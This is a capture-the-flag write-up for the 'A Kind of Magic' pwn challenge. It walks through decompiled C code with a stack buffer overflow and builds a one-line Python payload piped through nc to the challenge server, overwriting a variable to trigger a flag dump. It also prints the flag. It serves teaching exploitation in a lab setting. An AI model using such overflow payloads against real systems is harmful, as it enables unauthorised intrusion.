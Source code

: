 ```yaml
---
layout: writeup
title: A Kind of Magic
ctf: Killer Queen CTF
points: 177
solves: 294
tags: 
    - pwn
date: 2021-11-01
description: |-
    You're a magic man aren't you? Well can you show me?
flag: flag{i_hope_its_still_cool_to_use_1337_for_no_reason}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

We get a binary, which asks us for a magic input and outputs "Your magic is", followed by a number. This is 0 unless the input is fairly large. We can test the length and find that the output is 0 until we write the 40th character - then it will always be 10.

That it is 10 is interesting, since this is the ASCII value of a newline - so it could seem like we fill a buffer with 44 characters and the next character is printed back, which will then always be a newline.

Looking into the code in Cutter and decompiling, it looks fairly simple:

```clike=
main(int argc, char **argv)
{
    char **var_40h;
    int var_34h;
    char *s;
    unsigned long var_4h;
    
    var_4h = 0;
    puts("Is this a kind of magic? What is your magic?: ");
    fflush(_stdout);
    fgets(&s, 0x40, _stdin);
    printf("You entered %s\n", &s);
    printf("Your magic is: %d\n", var_4h);
    fflush(_stdout);
    if (var_4h == 0x539) {
        puts("Whoa we got a magic man here!");
        fflush(_stdout);
        system("cat flag.txt");
    } else {
        puts("You need to challenge the doors of time");
        fflush(_stdout);
    }
    return 0;
}
```

It initializes a string `char* s` and a value `var_4h = 0`. It then takes an input up to 64 characters and assigns to the string. But perhaps the buffer for the string is not as large (44 characters according to our test). This means the next characters overflow into `var_4h`, which is then printed. So we can basically insert any number we want into `var_4h`.

This is very useful, since the next condition checks if `var_4h == 0x539` and if so, we get the flag.

So we can simply pass in 44 random bytes followed by 0x539 (followed by some null bytes to get the newline out of the integer and into the next field):
```
python2 -c "print b'A' * 44 + b'\x39\x05\x00\x00'" | nc 143.198.184.186 5000
```
